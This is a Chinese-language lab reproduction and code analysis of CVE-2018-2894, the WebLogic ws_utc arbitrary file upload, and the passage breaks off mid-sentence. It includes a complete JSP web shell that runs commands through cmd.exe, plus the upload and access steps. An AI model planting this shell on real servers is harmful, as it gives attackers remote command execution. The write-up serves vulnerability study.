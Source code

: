 （CVE-2018-2894）WebLogic任意文件上传
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

漏洞影响版本：10.3.6.0, 12.1.3.0, 12.2.1.2, 12.2.1.3

三、复现过程
------------

下载地址：<http://download.oracle.com/otn/nt/middleware/12c/12213/fmw_12.2.1.3.0_wls_quick_Disk1_1of1.zip>

漏洞复现

服务启动后，访问 <http://localhost:7001/ws_utc/config.do>

![](./resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId26.png)

可以将当前的工作目录为更改为其他目录。以本地环境为例，可以部署到

    C:\Oracle\Middleware\Oracle_Home\user_projects\domains\base_domain\servers\AdminServer\tmp\_WL_internal\com.oracle.webservices.wls.ws-testclient-app-wls\4mcj4y\war

选择右边的安全栏目，添加JKS Keystores上传文件。假设chybeta.jsp内容如下：

    <%@ page import="java.util.*,java.io.*,java.net.*"%>
    <HTML><BODY>
    <FORM METHOD="POST" NAME="myform" ACTION="">
    <INPUT TYPE="text" NAME="cmd">
    <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
    <%
    if (request.getParameter("cmd") != null) {
            out.println("Command: " + request.getParameter("cmd") + "\n<BR>");
            Process p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("cmd"));
            OutputStream os = p.getOutputStream();
            InputStream in = p.getInputStream();
            DataInputStream dis = new DataInputStream(in);
            String disr = dis.readLine();
            while ( disr != null ) {
                    out.println(disr); disr = dis.readLine(); }
            }
    %>
    </pre>
    </BODY></HTML>

抓包获取到时间戳为1531987145013，则上传到的位置即config\\keystore\\1531987145013\_chybeta.jsp

![](./resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId27.png)

访问<http://localhost:7001/ws_utc/config/keystore/1531987145013_chybeta.jsp>

![](./resource/(CVE-2018-2894)Weblogic任意文件上传/media/rId29.png)

简要漏洞分析

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/setting/TestClientWorkDirManager.class:59:

    public void changeWorkDir(String path) {
        String[] oldPaths = this.getRelatedPaths();
        if (this.testPageProvider.getWsImplType() == ImplType.JRF) {
            this.isWorkDirChangeable = false;
            this.isWorkDirWritable = isDirWritable(path);
            this.isWorkDirChangeable = true;
            this.setTestClientWorkDir(path);
        } else {
            this.persistWorkDir(path);
            this.init();
        }
        if (this.isWorkDirWritable) {
            String[] newPaths = this.getRelatedPaths();
            moveDirs(oldPaths, newPaths);
        } else {
            Logger.fine("[INFO] Newly specified TestClient Working Dir is readonly. Won't move the configuration stuff to new path.");
        }
    }

此函数用于改变工作目录，但其中并未做任何检测。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/res/SettingResource.class:181中：

    @Path("/keystore")
    @POST
    @Produces({"application/xml", "application/json"})
    @Consumes({"multipart/form-data"})
    public Response editKeyStoreSettingByMultiPart(FormDataMultiPart formPartParams) {
        if (!RequestUtil.isRequstedByAdmin(this.request)) {
            return Response.status(Status.FORBIDDEN).build();
        } else {
            if (TestClientRT.isVerbose()) {
                Logger.fine("calling SettingResource.addKeyStoreSettingByMultiPart");
            }
            String currentTimeValue = "" + (new Date()).getTime();
            KeyValuesMap<String, String> formParams = RSDataHelper.getInstance().convertFormDataMultiPart(formPartParams, true, TestClientRT.getKeyStorePath(), currentTimeValue);
            ....
        }
    }

跟入ws-testpage-impl.jar!/com/oracle/webservices/testclient/core/ws/cdf/config/parameter/TestClientRT.class:31

    public static String getKeyStorePath() {
        return getConfigDir() + File.separator + "keystore";
    }

得到要写入的路径storePath。

在ws-testpage-impl.jar!/com/oracle/webservices/testclient/ws/util/RSDataHelper.class:145:

    public KeyValuesMap<String, String> convertFormDataMultiPart(FormDataMultiPart formPartParams, boolean isExtactAttachment, String path, String fileNamePrefix) {
        ...
        if (attachName != null && attachName.trim().length() > 0) {
            if (attachName != null && attachName.trim().length() != 0) {
                attachName = this.refactorAttachName(attachName);
                if (fileNamePrefix == null) {
                    fileNamePrefix = key;
                }
                String filename = (new File(storePath, fileNamePrefix + "_" + attachName)).getAbsolutePath();
                kvMap.addValue(key, filename);
                if (isExtactAttachment) {
                    this.saveAttachedFile(filename, (InputStream)bodyPart.getValueAs(InputStream.class));
                }
            }
        } 
        ...
    }

把上传文件的内容传到了storePath目录里，文件名满足fileNamePrefix + \"\_\"
+ attachName。这过程没有任何过滤和检查：）...

利用条件：

需要知道部署应用的web目录

ws\_utc/config.do在开发模式下无需认证，在生产模式下需要认证。具体可见Oracle®
Fusion Middleware Administering We
